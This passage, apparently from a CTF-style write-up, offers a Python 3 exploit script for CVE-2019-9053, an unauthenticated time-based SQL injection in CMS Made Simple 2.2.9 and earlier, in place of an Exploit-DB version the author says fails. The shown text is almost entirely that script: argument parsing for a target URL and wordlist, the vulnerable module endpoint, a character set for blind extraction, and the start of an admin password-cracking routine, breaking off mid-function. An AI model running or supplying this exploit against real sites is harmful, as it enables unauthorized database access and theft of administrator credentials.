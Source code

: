- Found an exploit from Exploit-DB, But it doesn't work, so you can use this:

```sh
#!/usr/bin/python3
# Exploit Title: Unauthenticated SQL Injection on CMS Made Simple <= 2.2.9
# Date: 30-03-2019
# Exploit Author: Daniele Scanu @ Certimeter Group
# Vendor Homepage: https://www.cmsmadesimple.org/
# Software Link: https://www.cmsmadesimple.org/downloads/cmsms/
# Version: <= 2.2.9
# Tested on: Ubuntu 18.04 LTS
# CVE : CVE-2019-9053
# Updated by Krishna Upadhyay for Python 3

import requests
from termcolor import colored
import time
from termcolor import cprint
import optparse
import hashlib

parser = optparse.OptionParser()
parser.add_option('-u', '--url', action="store", dest="url", help="Base target uri (ex. http://10.10.10.100/cms)")
parser.add_option('-w', '--wordlist', action="store", dest="wordlist", help="Wordlist for crack admin password")
parser.add_option('-c', '--crack', action="store_true", dest="cracking", help="Crack password with wordlist", default=False)

options, args = parser.parse_args()
if not options.url:
    print("[+] Specify an url target")
    print("[+] Example usage (no cracking password): exploit.py -u http://target-uri")
    print("[+] Example usage (with cracking password): exploit.py -u http://target-uri --crack -w /path-wordlist")
    print("[+] Setup the variable TIME with an appropriate time, because this sql injection is a time based.")
    exit()

url_vuln = options.url + '/moduleinterface.php?mact=News,m1_,default,0'
session = requests.Session()
dictionary = '1234567890qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM@._-$'
flag = True
password = ""
temp_password = ""
TIME = 1
db_name = ""
output = ""
email = ""

salt = ''
wordlist = ""
if options.wordlist:
    wordlist += options.wordlist

def crack_password():
    global password
    global output
    global wordlist
    global salt
    dict = open(wordlist, encoding='utf-8', errors='ignore')
    for line in dict.readlines():
        line = line.replace("\n", "")
        beautify_print_try(line)
```